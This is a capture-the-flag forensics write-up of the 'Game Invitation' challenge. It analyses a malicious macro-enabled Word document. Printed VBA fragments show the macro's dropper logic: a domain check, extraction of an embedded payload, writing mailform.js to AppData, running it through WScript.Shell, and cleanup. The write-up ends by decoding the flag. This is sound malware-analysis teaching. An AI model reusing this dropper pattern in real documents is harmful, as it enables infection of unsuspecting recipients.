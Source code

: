 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2024 | Game Invitation Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2024
parent: cyber_apocalypse_2024
category: forensics
challenge: Game Invitation
tags: "forensics, twh, macros, malware"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2024</h1>

## Game Invitation
> Solved by : thewhiteh4t


- Challenge talks about receiving a malicious `docm` file in email
- We managed to solve the challenge using windows and MS Office 2016
- We inspected the `macros` in the document and here is a brief flow : 
    - it checks for host domain and proceeds if it matches
```
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then
```
- opens the current document as binary mode 
`Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW`
    - uses regex to match a set pattern
```
    SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
    Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
    Dim vTxAnSEFH
        Set vTxAnSEFH = CreateObject("vbscript.regexp")
        vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
        Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
```
- gets `AppData` dir path and writes `mailform.js`
```
    kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
    Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
    If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
    kWXlyKwVj = Environ("appdata")
    End If
    Set aMUsvgOin = Nothing
    Dim K764B5Ph46Vh
    K764B5Ph46Vh = FreeFile
    IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
```
- uses `wscript` to run `mailform.js`
```
    Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
    R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
```

![](https://i.imgur.com/pmMXx2Y.png)

- Finally it runs clean up and deletes `mailform.js`
- First we can modify the domain check to bypass that condition
    ```
    chkDomain = "GAMEMASTERS.local"
    strUserDomain = Environ$("UserDomain") <-- original
    strUserDomain = "GAMEMASTERS.local"    <-- simply replace it with the domain
    If chkDomain <> strUserDomain Then
    ```
- In the `mailform.js` file we can add one extra statement to print the output of the function just before it hits `eval` as highlighted below :


![](https://i.imgur.com/8PPfPGU.png)



- Now we can use `csript` which is a CMD alternative of `wscript` to read the output it will print : 


![](https://i.imgur.com/WasZ239.png)

- In the noise we can see a `cookie`  being sent with a base64 string

```
> echo "SFRCe200bGQwY3NfNHIzX2czdHQxbmdfVHIxY2tpMTNyfQo=" | base64 -d
> HTB{m4ld0cs_4r3_g3tt1ng_Tr1cki13r}
```

